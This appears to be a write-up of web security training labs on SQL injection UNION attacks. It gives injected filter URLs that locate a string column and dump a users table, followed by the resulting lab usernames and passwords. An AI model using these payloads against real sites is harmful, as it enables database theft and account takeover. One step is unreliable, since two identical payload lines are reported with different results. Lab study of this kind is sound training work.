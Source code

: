 Given:

- SQL injection vuln in the product category filter
- Should be able to do a union attack to pull data from other tables
- builds on previous lab
- need to identify a column that is compatible with string data

> Goal: perform the SQL Injection UNION attack, return additional row containing value provided: `S3HPlT`.

We walk through the three fields looking for a match:

```
/filter?category=Pets' UNION SELECT 'S3HPlT',NULL,NULL-- (internal server error)
/filter?category=Pets' UNION SELECT NULL,'S3HPlT',NULL-- (success!)
/filter?category=Pets' UNION SELECT NULL,'S3HPlT',NULL-- (internal server error)
```

And we can see that the second attempt solved the challenge - we now know that the query is returning 3 columns and the second is compatible with string data.


## :material-gauge: SQL injection UNION attack, retrieving data from other tables

!!! question
    This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.

    The database contains a different table called users, with columns called username and password.

    To solve the lab, perform an SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user.

Building on prior solutions, we wnt to retrieve data from other tables. We are told that there is another table called `users` that has a column named `username` and another called `password`. Note that this is easier than the above as we don't have to shove things into one column (yet).

```
/filter?category=Pets' UNION select username, password from users --
```

yields us information like the following:

```
The Lazy Dog

The Lazy Dog is brought to you by the same people who invented the...

carlos

934rdmfpigx806kxma0m

administrator

734gs039pp7hvz53glwk

wiener

6yfdkdcuexrs36a2nd2a
```
